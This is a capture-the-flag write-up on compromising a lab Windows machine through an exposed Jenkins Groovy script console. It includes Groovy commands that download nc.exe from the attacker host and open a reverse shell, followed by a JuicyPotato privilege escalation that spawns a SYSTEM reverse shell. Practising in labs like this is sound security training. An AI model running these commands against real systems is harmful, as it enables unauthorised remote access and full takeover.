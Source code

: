 
## Helpful Links
- https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
- https://coldfusionx.github.io/posts/Groovy_RCE/
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato
- http://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/

# Initial Nmap Scan
![Pasted image 20230220162305](https://user-images.githubusercontent.com/71300144/220213851-3cd9fd74-8c59-4f11-b406-5131ddd697a5.png)


# Try to Connect ot SMB

![Pasted image 20230220163533](https://user-images.githubusercontent.com/71300144/220213942-60b262c7-be87-4cfc-9e98-e05f9dcb0363.png)
- That was a no go, so I decided to look at other options

# Website on 80

![Pasted image 20230220162401](https://user-images.githubusercontent.com/71300144/220213985-e4f9537e-ec02-4fbf-b231-4979993cb796.png)

Anytime you enter anything into the search you automatically get a picture output of

![Pasted image 20230220162455](https://user-images.githubusercontent.com/71300144/220214043-a9990b86-3d7c-4ee4-b592-52d68fcd6a5c.png)
- I tried to catpure the traffic to see what was going on but the search does not request anything, it just goes right to this picture so I did not even try sql injection. I think this was put here to throw you off and go down a rabbit hole

- I tried gobuster and came up with nothing so the next thing to do was check out the other website on port 50000

# Website on 50000

![Pasted image 20230220162652](https://user-images.githubusercontent.com/71300144/220214071-8485672a-fc12-4aec-9d41-5d6407ff0c69.png)
- again there was nothing, I used searchsploit to look up jetty and version, but came up with nothing. 
	- I did not spend long on this as Wappalyzer did not actually pick up on any software called jetty on the site.
- I then tried a couple manual directory guessing jeeves, jetty, etc.
	- came up with nothing
- I decided to use gobuster to see if there are any directoryies

## Found askjeeves Directory

![Pasted image 20230220163810](https://user-images.githubusercontent.com/71300144/220214116-f8e2ecf9-5f40-467f-b0b3-bf74f48437ea.png)
- Browsing to askjeeves

![Pasted image 20230220163942](https://user-images.githubusercontent.com/71300144/220214163-439cc02b-c016-4c3e-ad1c-aacf4e7abcad.png)

- I then Went and looked up jenkins script execution found an article and followed it. https://coldfusionx.github.io/posts/Groovy_RCE/
	- Go to Jenkins > manage jenking > script console

![Pasted image 20230220164741](https://user-images.githubusercontent.com/71300144/220214222-14711873-e344-4a7c-a903-cdc4804d46ed.png)
- First method in the blog did not work, so I went with method 2
	- First tested if I had command execution
	
	`def cmd = "cmd.exe /c dir".execute();println("${cmd.text}");`
	
	- Then uploaded nc on to target machine
	
	`def process = "powershell -command Invoke-WebRequest 'http://10.10.14.11:8080/nc.exe' -OutFile nc.exe".execute(); println("${process.text}");`
	
	- Then Executed nc on target machine
	
	`def process = "powershell -command ./nc.exe 10.10.14.11 9001 -e cmd.exe".execute(); println("${process.text}");`

# Post Enumeration and Privesc

![Pasted image 20230220164712](https://user-images.githubusercontent.com/71300144/220214415-73b3a012-a2ae-4c67-bd25-b1268f6342c4.png)

- When I logged on and got a shell I checked who I was and then the privileges I had.
- seImpersonatePrivilege was enabled which propted me to start looking into a potato attacks. I found the following github and downloaded the executable
	- https://github.com/ohpe/juicy-potato/releases
- certutil was not available on the shell neither was curl or wget, I tried dropping into powershell, but that was unresponsive.
- I then deciede to upload wget.exe from my attacker machine to the target machine with the same method I used to get nc.exe on the system through Jenkins
- Once wget.exe was downloaded on the system I used it to get the JuicyPotato.exe I downloaded off of gethub
- I realize I could have just dropped the JuicyPotato.exe onto the machine instead of wget but I figured it would be annoying to have to keep going back to Jenkins and running the same command over and over again if I needed anything else on the system, so wget was a better option.

![Pasted image 20230220165623](https://user-images.githubusercontent.com/71300144/220214390-4f1d31b9-ff41-49a4-976f-36ea35734116.png)

- I then followed the blog on hacktricks to get the JuicyPotato exploit to work
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato

The biggest part of this picking a **CLSID that works I tried about 5 or six then decided to use the one provided in the example, and it worked. The one provided in the example was luckily a windows 10 professional CLSID. The target box was a based on `systeminfo` command. They used the BITS CLSID. You can find it on http://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/

`.\JuicyPotato.exe -l 6666 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Users\Administrator\.jenkins\nc.exe -e cmd.exe 10.10.14.8 443" -t *`


![Pasted image 20230220170336](https://user-images.githubusercontent.com/71300144/220214465-25095627-5e0b-497f-982e-cd909ecc9e09.png)

- Catch the connection with your netcat listener

![Pasted image 20230220170446](https://user-images.githubusercontent.com/71300144/220214505-c7f0145a-775c-4c9a-a385-43fc6d7fdd22.png)

## Box Owned!!!

***

## Notes afterwards

### Alternate Data Streams
- The root flag was hidden in an alternate data stream
- An alternate data stream can be found by listing the directory and providing the `dir \r ` 
- type is not capable of opening this type of file so you have to use more
	`more < hm.txt:root.txt`

![InkedPasted image 20230220170902](https://user-images.githubusercontent.com/71300144/220214671-3895c462-38b1-4a39-8403-f9e1080b22f8.jpg)

